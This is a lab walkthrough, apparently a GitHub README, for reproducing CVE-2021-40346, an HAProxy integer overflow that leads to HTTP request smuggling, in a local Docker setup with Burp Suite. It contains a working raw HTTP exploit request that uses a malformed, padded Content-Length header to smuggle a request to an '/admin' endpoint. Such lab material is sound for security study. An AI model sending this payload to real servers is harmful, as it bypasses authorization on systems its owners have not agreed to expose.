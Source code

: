 # HaProxy Integer Overflow \leads to HTTP Smuggling (CVE-2021-40346)

HaProxy is a popular load balancer software. CVE-2021-40346 is an integer overflow vulnerability, which leads to http smuggling. And, in turn, HTTP Smuggling leads to potential authorization bypasses or other consequences (see References for HTTP Smuggling). \
A malicious Content-Length header leads to integer overflow. Later, this enables another vulnerability - HTTP Request Smuggling. In turn, this might lead to an authorization bypass.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp. Try to access either 'guest' and 'admin' endpoints separately.
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

![image](https://user-images.githubusercontent.com/31791455/140397000-4a163839-973f-42df-ac35-63601567f46e.png)


## Exploitation with Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit. Turn on newline preview (the '\n' button) in Repeater for extra visiblity.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694 \
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/ \
https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


